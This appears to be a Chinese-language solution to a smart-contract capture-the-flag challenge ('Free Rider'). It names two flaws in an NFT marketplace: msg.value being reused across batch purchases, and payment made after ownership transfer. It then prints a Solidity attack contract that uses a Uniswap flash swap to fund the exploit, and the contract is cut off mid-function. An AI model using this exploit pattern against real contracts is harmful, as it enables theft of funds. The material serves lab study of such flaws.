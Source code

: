 1. msg.value可重入 批量购买
2. 将购买金额发送给nft所有者是在变更所有权后

以下是攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import "hardhat/console.sol";

contract HackerFreeRider is IERC721Receiver{
    using Address for address;

    // borrow eth
    uint256 borrowAmount = 15 ether;

    address pair;
    address weth;
    address exchange;
    address nft;
    address reward;
    address owner;

    constructor(address _pair,
                address _weth,
                address _exchange,
                address _nft,
                address _reward
                ){
        pair = _pair;
        weth = _weth;
        exchange = _exchange;
        nft = _nft;
        reward = _reward;
        owner = msg.sender;
    }

    function attack() public {
        pair.functionCall(
            abi.encodeWithSignature(
                "swap(uint256,uint256,address,bytes)",
                borrowAmount,
                0,
                address(this),
                "1"
                ));

    }

    function uniswapV2Call(address sender, 
        uint amount0, 
        uint amount1, 
        bytes calldata data) public{

        console.log("calling back");

        bytes memory wethBorrowed = weth.functionCall(
            abi.encodeWithSignature(
                "balanceOf(address)",
                address(this)
            )
        );
```